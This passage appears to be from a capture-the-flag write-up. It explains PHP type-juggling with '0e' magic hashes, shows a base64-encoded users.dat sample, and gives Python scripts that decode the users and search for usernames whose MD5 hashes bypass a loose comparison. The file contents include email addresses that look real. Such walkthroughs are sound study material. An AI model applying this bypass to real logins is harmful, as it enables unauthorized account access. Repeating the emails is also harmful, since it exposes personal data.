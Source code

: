 If we look at this blog post,
https://www.alertlogic.com/blog/writing-exploits-for-exotic-bug-classes-php-type-juggling/,
we can see that strings that look like numbers are type juggled when compared
with ==. So, if we can find an existing user with a username that gets hashed to
something that looks like a number in scientific notation like
0e004561083131340065739640281486, then the comparison will be reduced to
comparing zeroes. Since 0 raised to the power of anything is 0.

Now, let's revert our attention to the users.dat. In this file we have a
sampling of users.

```shell
...
U2luZHJlODk=,ZWphdGRvdGNvbUB5YWhvby5jb20N,1
dm9sYWNpb3VzODA=,YWttYWxzYTkwQHlhaG9vLmNvbQ0=,1
bWFyaW5lMjI4,aWxhaF9uZm0wMUB5YWhvby5jb20N,1
cGh1Y2tOdXQ=,YXpsaW5fNDUzMUB5YWhvby5jb20ubXkN,1
Z3JlZ3k3OQ==,Ym9uaWZhY2VfYnJvZGllQHlhaG9vLmNvbQ0=,1
QnVzdGVyNDQ=,aWVyaXNtYWxpZWthODVAeWFob28uY29tDQ==,1
SGVyclJvY2tlcg==,Q3Jvd19aaWdAeWFob28uY29tDQ==,1
YWZyb3N0dWQxMg==,YXppZXJhaDc4QHlhaG9vLmNvbQ0=,1
a2plbGtlbg==,bWF6bGFuX2RyY0B5YWhvby5jb20N,1
Y2hldmFs,RmlleWE5Nl9jcmF6eUB5YWhvby5jb20N,1
...
```

Let's write a script to decode everything:

```python
import base64

lines = file("users.dat").read().strip().split("\n")
entries = [i.split(",") for i in lines]
entries_field = [(base64.decodestring(i[0]), base64.decodestring(i[1])) for i in
        entries]

for i in entries_field:
    print ":".join(i)
```

```shell
$ python decode.py
badboyhof:ballyciapretticia@yahoo.com
orvv1979:aizamahamd@yahoo.com
boogalloo032457:Muiz_kakashi@yahoo.com
tarzane:mynasstc@yahoo.com
...
```

Now, let's upgrade our script to MD5 hash the usernames and look for one that
matches something that can be type juggled into a number in scientific notation.

```python
import base64
import md5

lines = file("users.dat").read().strip().split("\n")
entries = [i.split(",") for i in lines]
entries_field = [(base64.decodestring(i[0]), base64.decodestring(i[1])) for i in
        entries]

for i in entries_field:
    hashed = md5.md5(i[0]).hexdigest()
    if hashed[:2] == "0e" and hashed[2:].isdigit():
        print hashed, i[0]
```

